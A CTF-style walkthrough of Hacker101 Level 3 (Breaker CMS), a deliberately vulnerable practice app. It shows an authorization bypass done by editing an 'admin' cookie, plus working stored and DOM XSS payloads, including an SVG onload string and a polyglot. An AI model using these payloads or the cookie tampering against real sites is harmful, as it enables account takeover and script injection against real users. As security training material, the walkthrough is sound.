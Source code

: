 # Level 3: Breaker CMS

```
		In this level, there are 6 vulnerabilities, falling into the following classes:
		Various XSS
		Improper Authorization
		Unrelated Bonuses

		Have fun!
		
   ```
    
    
 

## Improper Authorization:       
Look at script at bottom of page source:    

```// We should only display the edit link to authenticated admins.
			// http://i.imgur.com/WPaknth.jpg
			var page = window.location.hash.substring(1);
			if(page == '')
				page = 'index';
			var cookies = document.cookie.split(';');
			for(var i in cookies) {
				var cookie = cookies[i].replace(/ /g, '').split('=');
				if(cookie[0] == 'admin' && cookie[1] == '1')
					document.write('<a href="/levels/3/admin?page=' + page + '">Edit this page</a>');
			}
```    
      
      
  
 Go to cookies and change value for admin cookie from 0 to 1:       
 ![Cookie interface in Firefox Quantum](https://github.com/Isopach/Hacker101/blob/master/img/level3_improper_auth1.png)

----

## Stored XSS (Body)

Enter payload into page body edit box and POST     
`"<svg onload=alert(1)>`

![Stored XSS in Body](https://github.com/Isopach/Hacker101/blob/master/img/level3_stored_xss_body.png)

---

## Stored XSS (Body)

Enter payload into page body edit box and POST    
`<a href="https://levels-a.hacker101.com/levels/3/#" onmouseover=alert(1)`   

![Stored_XSS_in_Body_DOM](https://github.com/Isopach/Hacker101/blob/master/img/level3_stored_xss_body_dom.png)

---

## DOM XSS (Head)

Enter payload into title:     

```
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e
```


![Self XSS in Head](https://github.com/Isopach/Hacker101/blob/master/img/level3_self_xss_head.png)
